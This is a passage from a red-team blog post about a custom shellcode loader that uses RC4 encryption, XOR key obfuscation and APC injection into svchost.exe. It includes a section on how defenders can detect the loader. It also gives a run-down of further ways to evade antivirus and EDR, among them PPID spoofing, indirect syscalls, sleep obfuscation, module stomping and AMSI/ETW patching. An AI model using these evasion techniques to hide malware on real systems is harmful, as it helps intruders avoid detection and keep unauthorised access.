The `Sleep(500)` after resuming gives the shellcode time to establish itself (for example, to set up a C2 beacon) before the loader cleans up its handles and exits.

### The Generator: generate_loader.py

The `generate_loader.py` script automates the entire build process. It takes a raw shellcode binary as input, encrypts it with RC4, and generates a complete `loader.c` file with the encrypted shellcode already embedded. This means an operator can go from raw shellcode to a compilable loader in a single command:

```bash
python generate_loader.py beacon.bin
# Output: loader.c with encrypted shellcode embedded
```

## Packed vs Unpacked: The Memory Forensics Perspective

Understanding what your loader looks like from the defender's perspective is just as important as understanding how it works from the attacker's. This section examines the loader at two points in time: on disk before execution (packed) and in memory after the shellcode has been decrypted and injected (unpacked).

### On Disk: The Packed View

When a forensic analyst examines the compiled loader binary with a hex editor or static analysis tool, they see the following in the `.data` section:

The encrypted shellcode appears as a block of high-entropy bytes with no discernible patterns. There are no readable strings, no PE headers, no API name fragments. A YARA rule looking for specific Meterpreter or Cobalt Strike beacon byte sequences will not match because the RC4 encryption has transformed every byte.

The RC4 key is stored as XOR-obfuscated bytes. Instead of `WindowsUpdateAgent2024`, the `.data` section contains `0x02, 0x3C, 0x3B, 0x31, 0x3A, 0x22, 0x26, 0x00, 0x25, 0x31, 0x34, 0x21, 0x30, 0x14, 0x32, 0x30, 0x3B, 0x21, 0x67, 0x65, 0x67, 0x61`. Running `strings` on the binary reveals nothing useful about the key.

The import table, however, is the weakest point of static analysis evasion. The loader imports `VirtualAllocEx`, `WriteProcessMemory`, `QueueUserAPC`, `CreateProcessA`, `VirtualProtectEx`, and `ResumeThread`. An experienced analyst recognizing this combination of imports can immediately identify the binary as a probable process injector, even without seeing the encrypted payload.



### In Memory: The Unpacked View

After the loader executes, the picture changes dramatically. The target process (for example, `svchost.exe`) now contains a memory region that was allocated via `VirtualAllocEx`, populated with plaintext shellcode, and marked as executable. This region is "unbacked," meaning it is not associated with any DLL or PE file on disk. Any memory scanning tool that examines the process will find:

A block of executable memory that does not correspond to any loaded module. The contents of this block are the fully decrypted shellcode, which may contain recognizable C2 signatures, Meterpreter stage markers, or beacon configuration data. If the shellcode is a Havoc Demon agent, the in-memory image will contain its encrypted communication keys and callback configuration.



The key forensic indicator is the unbacked executable memory region. Tools like PE-sieve, Moneta, and BeaconEye specifically hunt for these regions. A defender running `pe-sieve /pid:XXXX` against the injected svchost process would immediately flag the foreign code.

### What Defenders Should Look For

From a blue team perspective, the most reliable detection points for this loader are:

Process creation patterns where an unknown parent spawns `svchost.exe`, `dllhost.exe`, or similar system processes in a suspended state. Legitimate instances of `svchost.exe` are spawned by `services.exe`, not by random executables. Sysmon Event ID 1 (Process Create) with a suspicious `ParentImage` is the primary telemetry source here.

Cross-process memory operations generate ETW (Event Tracing for Windows) telemetry. `VirtualAllocEx` followed by `WriteProcessMemory` into a different process is a strong injection indicator. Sysmon Event ID 8 (`CreateRemoteThread`) does not fire for APC injection, but Event ID 10 (`ProcessAccess`) captures the `OpenProcess` equivalent.

The unbacked RX memory region in the target process is detectable through periodic memory scanning. Any executable region that is not backed by a legitimate module on disk warrants investigation.

## OPSEC Considerations and Improvements

No tool is perfect, and being honest about your tooling's weaknesses is what separates a professional red team operator from someone running public exploits. Here are the current limitations of this loader and how each could be addressed.

**Import table exposure.** The loader's IAT (Import Address Table) lists `VirtualAllocEx`, `WriteProcessMemory`, `QueueUserAPC`, `CreateProcessA`, and `VirtualProtectEx`. This combination is a textbook process injection signature. A static analyzer or AV heuristic that flags binaries importing all five of these APIs will catch this loader without ever running it. The fix is to resolve these functions dynamically at runtime using `GetProcAddress` with hashed function names, or better yet, to use direct or indirect syscalls via frameworks like SysWhispers3 or HellsGate. Indirect syscalls have the additional advantage that the return address on the call stack points inside `ntdll.dll` rather than your binary, which defeats call stack analysis.

**Single-byte XOR key obfuscation.** The RC4 key is XOR'd with `0x55`, a single byte. An analyst who suspects XOR obfuscation can brute-force all 256 possible single-byte keys in under a second and recover the plaintext key. A more robust approach would use a multi-byte XOR key, or better, derive the decryption key from environmental factors (hostname, domain name, username) so the loader only works on the intended target. This is called environmental keying and it prevents sandbox detonation entirely, because the sandbox's environment will produce the wrong key.

**Suspicious parent-child relationships.** The loader process (whatever it is named) spawning `svchost.exe` is inherently suspicious. Real `svchost.exe` instances are children of `services.exe`. The fix is PPID spoofing using `PROC_THREAD_ATTRIBUTE_PARENT_PROCESS` in the `STARTUPINFOEX` structure, which allows you to specify a fake parent process. Setting the parent to `services.exe` makes the spawned `svchost.exe` appear legitimate in process tree analysis.

**No sleep obfuscation.** Once the C2 beacon is running inside the target process, it sits in readable, executable memory during its sleep cycle. Periodic memory scanners will eventually find it. Modern loaders implement sleep obfuscation techniques like Ekko (which uses `CreateTimerQueueTimer` to chain ROP gadgets that encrypt the beacon in memory during sleep) or Foliage (which uses APC-based encryption). Without sleep obfuscation, the beacon's longevity depends on how frequently the defender scans memory.

**Unbacked executable memory.** The shellcode resides in a `VirtualAllocEx`'d region that is not backed by any file on disk. This is the number one indicator that PE-sieve and similar tools look for. Module stomping solves this by loading a legitimate DLL into the target process, then overwriting its `.text` section with shellcode. The memory region then appears to be backed by a real DLL file, defeating unbacked-memory detection.

**No AMSI or ETW patching.** If the target process loads `amsi.dll` or if ETW providers are active, telemetry about the injection may be captured. Patching `AmsiScanBuffer` or `EtwEventWrite` at the start of execution would blind these monitoring mechanisms, though the patches themselves are detectable by integrity-checking EDRs. Hardware breakpoints offer a stealthier alternative to memory patching for AMSI bypass.

## Conclusion

This loader sits at the intersection of payload delivery and defense evasion in the red team kill chain. It takes raw shellcode from any source, encrypts it to defeat static analysis, embeds it in a clean C loader that uses multiple anti-analysis techniques, and injects it into a legitimate Windows process using Early Bird APC injection to race ahead of EDR hooks.

Building offensive tooling from scratch, understanding every API call, every memory protection flag, every byte of the RC4 key schedule, is what makes the difference between an operator who gets caught in the first five minutes and one who maintains access for months. Off-the-shelf frameworks have their place, but their signatures are known, their behaviors are profiled, and their IOCs are in every threat intel feed. Custom tooling, tailored to the specific engagement, remains the gold standard for mature red team operations.

The full source code is available at [github.com/GlitchHunter1/Shellcode-Loader---AV-Evasion](https://github.com/GlitchHunter1/Shellcode-Loader---AV-Evasion). This is part of ongoing research. Future posts will cover indirect syscall integration, sleep obfuscation implementation, and module stomping techniques.

---

**Mohammed Al-Sadi (Glitch)**
Red Team Engineer | Offensive Security Researcher
OSCP+ | HTB #4 Oman | TryHackMe #3 Oman

Find me on [GitHub](https://github.com/GlitchHunter1).
